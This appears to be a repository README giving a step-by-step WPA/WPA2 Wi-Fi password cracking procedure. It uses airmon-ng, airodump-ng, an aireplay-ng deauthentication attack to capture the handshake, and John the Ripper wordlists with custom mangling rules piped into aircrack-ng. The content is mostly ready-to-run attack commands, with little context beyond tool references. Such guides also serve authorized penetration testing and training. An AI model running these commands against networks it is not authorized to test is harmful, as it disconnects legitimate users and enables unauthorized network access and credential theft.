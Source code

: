 # John the Ripper (JtR) with Aircrack-ng (WPA/WPA2)

Use this tool to crack WPA/WPA2 passwords with aircrack-ng

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Crack the password using john
john --wordlist=$WORDLIST --rules --stdout | aircrack-ng -e $SSID $PCAP -w -

# Try other wordlist or create custom rules (see below) if not finding
```

## Customize Rules

We can create additional test cases by editing existing rules.

```bash
# First, check what exists for a given password
john --wordlist=$WORDLIST --rules --stdout | grep -i password123
```

![john-before](../../images/john-before-custom-rules.png)

```bash
# Now, add new rules
sudo vi /etc/john/john.conf

# Search for the List.Rules:Wordlist section
# Add these rules under this section to append more numbers, e.g., password123
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]

# Save and try it out
john --wordlist=$WORDLIST --rules --stdout | grep -i password123
```

![john-before](../../images/john-after-custom-rules.png)

## References

* /usr/share/john/password.lst ($WORDLIST)
* /usr/share/wordlists
* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [John the Ripper](https://www.openwall.com/john/)
